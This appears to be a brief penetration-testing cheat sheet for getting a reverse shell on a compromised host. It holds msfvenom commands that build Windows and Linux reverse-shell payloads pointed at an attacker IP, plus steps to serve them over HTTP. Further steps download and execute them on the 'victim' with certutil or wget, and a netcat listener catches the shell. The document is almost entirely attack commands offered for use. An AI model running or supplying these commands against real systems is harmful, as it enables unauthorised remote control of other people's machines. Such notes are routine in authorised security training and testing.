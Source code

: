 
## Generate shell with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  chmod +x shell.elf
  ./shell.elf
```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```
